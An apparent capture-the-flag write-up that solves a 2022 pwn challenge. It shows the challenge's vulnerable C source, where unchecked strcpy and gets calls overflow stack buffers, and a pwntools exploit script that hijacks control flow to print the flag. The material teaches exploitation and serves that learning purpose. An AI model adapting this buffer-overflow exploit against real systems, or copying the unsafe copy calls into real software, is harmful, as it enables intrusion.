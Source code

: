 ```yaml
---

title: Bof pcc.nccs_final 2022

author: megachar0x01

date: 2022-08-08

categories: [Pwn, i386, ctf]

---
```


### Purpose : Get The Flag



Checking binary security measures.


<img src="https://i.imgur.com/eJF86pP.png
" alt="img_1">

Source Code is given. Reading through it we can see that it is checking if the argument passed to binary is equal to 10. If the condition is met will copy the 5th argv to a stack of 10 bytes without checking input which creates a stack-based buffer overflow.


```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void strcpp() {

	volatile int _var = 25;
	char local_buffer[10];

	printf("I really thought you wouldn't find this :(\n");
	printf("Well, you still need to one more thing before going for the flag\n>> ");

	gets(local_buffer);

	if(_var == 24415) {
		printf("\nYou really are pretty good at this. Here's the flag: ");
		char flag[30];
		FILE* fptr = fopen("flag.txt", "r");

		if (fptr == NULL) {
			printf("\nError reading flag from the file. Please contact TheFlash2k...\n");
			exit(-1);
		}

		fscanf(fptr, "%s", flag);
		printf("%s\n", flag);
		fclose(fptr);
		exit(0);
	}
	exit(1);
}

int main(int argc, char* argv[]) {


	setbuf(stdin, NULL);
	setbuf(stdout, NULL);

	char buffer[50];

	if(argc == 10) {
		strcpy(buffer, argv[5]);
	}

	return 0;
}

```

Now it's time to exploit this binary. 

```python
#!/usr/bin/python3
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
       
        return process([exe] + argv, *a, **kw)

exe = './bof'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)
io = start(["A","A","A","A",b"A"*58+p32(elf.functions.strcpp.address),"A","A","A","A"])
payload = b"B"*10 + p32(0x5f5f)
io.sendlineafter(b">>",payload)
io.interactive()

```
